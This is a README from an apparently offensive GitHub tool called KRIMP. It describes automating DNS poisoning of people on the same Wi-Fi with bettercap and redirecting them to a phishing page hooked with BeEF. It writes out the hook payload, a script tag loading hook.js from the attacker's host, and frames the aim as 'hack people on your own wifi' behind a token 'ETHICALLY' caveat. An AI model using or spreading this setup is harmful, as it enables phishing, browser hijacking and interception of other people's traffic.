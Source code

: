# KRIMP
```
                                          ▄█   ▄█▄    ▄████████  ▄█    ▄▄▄▄███▄▄▄▄      ▄███████▄ 
                                         ███ ▄███▀   ███    ███ ███  ▄██▀▀▀███▀▀▀██▄   ███    ███ 
                                         ███▐██▀     ███    ███ ███▌ ███   ███   ███   ███    ███ 
                                        ▄█████▀     ▄███▄▄▄▄██▀ ███▌ ███   ███   ███   ███    ███ 
                                       ▀▀█████▄    ▀▀███▀▀▀▀▀   ███▌ ███   ███   ███ ▀█████████▀  
                                         ███▐██▄   ▀███████████ ███  ███   ███   ███   ███        
                                         ███ ▀███▄   ███    ███ ███  ███   ███   ███   ███        
                                         ███   ▀█▀   ███    ███ █▀    ▀█   ███   █▀   ▄████▀      
                                         ▀           ███    ███                                   
  ```
  
Do you ever want to phish someone (ETHICALLY) and u cant seem to find a good url? Well I got you covered, this tool automates the process of DNS poisoning a target on your wifi to make them redirect to your page which is inected with beEf.
*This is in an alpha stage, more automation will come*

## Pre-requisites
1. You will need to have beEf installed
2. You will need to have bettercap installed
3. You will need to have gnome-terminal installed
4. You will need to have apache2 installed

You will also need an index.html file inside of your /var/www/html folder with a beef hook, add this to a html file to hook it with beef:
`<script src="http://<local ip>:3000/hook.js"></script>`

## Configurate the script
- Change the directories in the script to your installation of beEF and bettercap.

### Extra
At the moment, this tool is only used to hack people on your own wifi, more features will come over time, like over WAN.

